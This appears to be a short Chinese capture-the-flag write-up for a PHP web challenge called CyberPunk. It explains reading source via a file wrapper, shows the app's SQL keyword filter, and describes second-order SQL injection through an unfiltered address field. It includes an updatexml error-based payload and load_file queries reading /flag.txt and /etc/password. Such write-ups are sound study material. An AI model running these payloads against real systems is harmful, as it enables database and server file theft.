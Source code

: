 ```yaml
---
title: CyberPunk
date: 2021-04-04 14:54:09
tags: wp

---
```

## '__'   

![](https://ftp.bmp.ovh/imgs/2021/04/e4c5412ad0e75377.png) 
看下源码，有提示：`<!--?file=?-->`     

用伪协议读下文件      
`index.php`      
`change.php`     
`config.php`      
`search.php`     
`delete.php`        

`$pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';`         
name和phone 都过滤了好多          
address只有一个addslashes转义函数        
修改地址那里没有过滤，可以在此进行SQL注入，第一次修改为SQL语句，再次修改，刚才修改的SQL语句就被查询执行了          
回显只有`订单修改成功`       
可以报错注入        
payload：`1' where user_id=updatexml(1,concat(0x7e,(select user()),0x7e),1)#`       
不过这道题flag没在数据库中，要用`load_file`读取文件     
`select load_file('/flag.txt')`     
`flag.txt`是猜的       
updatexml每次只能回显32位     
可以substr或者right、left       

![](https://ftp.bmp.ovh/imgs/2021/04/167b92bcd92a0069.png) 


## 芝士·      

`select load_file('/etc/password')`    
